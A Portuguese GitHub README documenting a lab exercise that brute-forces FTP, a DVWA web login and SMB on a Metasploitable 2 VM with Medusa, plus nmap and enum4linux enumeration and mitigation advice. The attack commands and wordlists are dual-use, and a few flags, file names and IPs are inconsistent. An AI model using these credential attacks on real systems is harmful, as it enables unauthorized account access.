 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlad**o)

Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox-host-only) rede interna.

⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**

* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* images/ (screenshots)

**Objetivos do projeto:**

1.  Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only / interna.
2.  Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3.  Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4.  Estrutura das VMs (configuração sugerida)
5.  Instalar VirtualBox.
6.  Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7.  VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8.  VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9.  Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux)
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).

**Comandos - varredura inicial**

Descobrir serviços com nmap:

```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```

**Ataque FTP com Medusa**

Objetivo: força bruta contra usuário conhecido (ex: admin) com uma wordlist pequena.

# Exemplo: testar usuário admin com wordlists no host 192.168.56.101

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

**Explicação das flags:**

-h host alvo
-u usuário único (use -U para arquivo de usuários)
-P caminho da wordlist de senhas
-M ftp módulo FTP
-T 6 threads (ajuste conforme ambiente)
-f encerra ao encontrar credenciais válidas

Validação: após encontrar credenciais, faça login com ftp:

```bash
ftp 192.168.56.101
```
**Ataque a formulário web (DVWA) com Medusa (http\_form)**

DVWA costuma ter login em /dvwa/login.php. Exemplo de uso do módulo http\_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):

Exemplo genérico de http\_form (substitua os campos conforme o formulário real)

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

Validação: tente fazer login no navegador usando as credenciais encontradas

**Password spraying em SMB (com enumeração de usuários)**

* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).

# Enumeração com enum4linux

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```
#Crie wordlists conforme ajuste:

```bash
echo -e "user\nmsfadmin\nservice" > smb\_users.txt
```

```bash
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas spray.txt
```

Medusa smbnt (sintaxe genérica — ajuste conforme versão):

# Usando arquivo de usuários (-U) e uma pequena wordlist (-P)

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal / spraying: para vários usuários tenta poucas senhas comuns.

Validação: se houver credenciais válidas, usar smbclient para acesso:

```bash
smbclient -L //192.168.56.20 -U msfadmin
```
**Recomendações de mitigação (boas práticas):**

* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.

